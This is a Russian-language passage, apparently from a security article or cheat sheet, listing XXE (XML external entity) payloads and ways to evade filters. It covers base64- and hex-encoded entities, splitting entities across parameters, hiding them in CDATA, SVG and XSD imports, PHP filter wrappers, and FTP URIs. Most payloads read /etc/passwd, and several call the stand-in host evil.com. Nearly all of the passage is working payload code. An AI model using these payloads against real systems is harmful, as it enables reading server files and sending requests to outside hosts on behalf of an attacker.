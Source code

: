 - Base64-кодировку
```
<!DOCTYPE foo [
  <!ENTITY % payload SYSTEM "data:;base64,ZmlsZTovLy9ldGMvcGFzc3dk">
]>
```
Здесь `ZmlsZTovLy9ldGMvcGFzc3dk` — это `file:///etc/passwd` в Base64.

- Hex-кодировку
```
<!ENTITY % ext SYSTEM "ht&#x74;p://evil.com">
```

- Разделение атаки через параметрические сущности
```
<!DOCTYPE foo [
  <!ENTITY % part1 "SY">
  <!ENTITY % part2 "STEM">
  <!ENTITY % combined "%part1;%part2;">
  <!ENTITY % payload SYSTEM "file:///etc/passwd">
]>
```

- Внедрение данных через CDATA может помочь скрыть вредоносные сущности
```
<data><![CDATA[<!ENTITY % xxe SYSTEM "file:///etc/passwd">]]></data>
```

#### 4.2. Атаки без явного определения сущностей

- Эксплуатация ошибок парсера. Некоторые парсеры (например, старые версии libxml2) имеют уязвимости, позволяющие читать файлы без DTD:
```
<?xml version="1.0"?>
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
  <image xlink:href="file:///etc/passwd"/>
</svg>
```

- Атаки через XML Schema (XSD)
```
<xs:schema xmlns:xs="http://www.w3.org/2001/XMLSchema">
  <xs:import schemaLocation="http://evil.com/malicious.xsd"/>
</xs:schema>
```

#### 4.3. Использование нестандартных протоколов

- PHP-обертки
```
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
]>
```

- FTP/GOPHER
```
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "ftp://evil.com:21/file.txt">
]>
```
